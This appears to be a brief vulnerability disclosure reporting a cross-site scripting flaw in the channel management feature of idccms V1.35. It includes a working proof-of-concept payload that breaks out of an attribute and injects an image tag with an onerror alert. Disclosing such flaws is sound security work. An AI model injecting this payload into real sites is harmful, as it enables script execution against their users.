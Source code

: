 
target:http://idccms.com/
version: V1.35

There is Cross-Site Scripting (XSS)  vulnerability within the 'Superior channel management' .

![图片1](1.png)

poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![图片](2.png)

